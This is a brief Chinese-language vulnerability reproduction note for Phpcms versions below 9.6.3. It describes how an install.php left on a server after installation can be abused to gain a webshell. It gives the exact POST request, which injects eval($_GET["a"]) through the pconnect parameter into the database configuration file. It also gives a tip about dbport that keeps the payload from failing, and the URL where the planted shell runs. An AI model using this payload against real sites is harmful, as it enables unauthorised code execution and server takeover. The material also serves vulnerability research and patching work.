Phpcms V9.6.3 install.php 没有即使删除导致的getshell
====================================================

一、漏洞简介
------------

比较鸡肋，需要在环境安装好了之后，install.php也没有被删除，才可以利用

二、漏洞影响
------------

Phpcms \< V9.6.3

三、复现过程
------------

    POST /install/install.php?step=installmodule
    module=admin&dbport=3306&pconnect=eval($_GET["a"])

> 这里控制的是
> pconnect参数，因为默认它没有单引号比较好调试。注意这里如果不传dbport参数的话database.php里的port参数会置空，将会报错。就无法执行到后面的
> eval了

![1.png](./.resource/PhpcmsV9.6.3install.php没有即使删除导致的getshell/media/rId24.png)

被修改后的database.php：

![2.png](./.resource/PhpcmsV9.6.3install.php没有即使删除导致的getshell/media/rId25.png)

url：`/caches/configs/database.php`

![3.png](./.resource/PhpcmsV9.6.3install.php没有即使删除导致的getshell/media/rId26.png)
